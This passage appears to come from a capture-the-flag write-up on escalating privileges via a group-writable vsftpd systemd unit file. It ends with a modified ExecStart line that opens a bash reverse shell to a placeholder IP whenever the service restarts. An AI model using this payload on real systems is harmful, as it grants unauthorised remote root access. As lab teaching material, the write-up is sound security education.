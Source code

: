 Interesting. This was confusing to look at first. 

But if you have installed software and administered a system before, you would recognize the command. 

`vsftpd` has been configured to run as a *systemd* service. The usual command to check the service status is `systemctl status vsftpd`. Any guide to installing and configuring `vsftpd` should have similar commands. Example -> https://www.howtoforge.com/tutorial/install-and-configure-vsftpd-server-on-ubuntu-1804/

Anyway, let's check the service status
```bash
drac@ide:/dev/shm$ systemctl status vsftpd
● vsftpd.service - vsftpd FTP server
   Loaded: loaded (/lib/systemd/system/vsftpd.service; enabled; vendor preset: enabled)
   Active: active (running) since Tue 2022-11-08 09:28:50 UTC; 27min ago
  Process: 1278 ExecStartPre=/bin/mkdir -p /var/run/vsftpd/empty (code=exited, status=0/SUCCESS)
 Main PID: 1289 (vsftpd)
    Tasks: 1 (limit: 1103)
   CGroup: /system.slice/vsftpd.service
           └─1289 /usr/sbin/vsftpd /etc/vsftpd.conf
```

You can not only check the `status` but also stop, start and restart the service, with the right permissions.

The file of interest to us here is `/lib/systemd/system/vsftpd.service`. Contents of said file as follows:
```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```

Let's see if we have permissions to modify this file
```bash
drac@ide:/dev/shm$ ls -l /lib/systemd/system/

-rw-rw-r-- 1 root drac  248 Aug  4  2021 vsftpd.service
```
Yes we do :)

Let's modify the *ExecStart* attribute in the config file, to create a TCP reverse shell to send us a connection whenever the service is restarted.
```
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/YOUR_IP/443 0>&1 ; /usr/sbin/vsftpd /etc/vsftpd.conf"
```
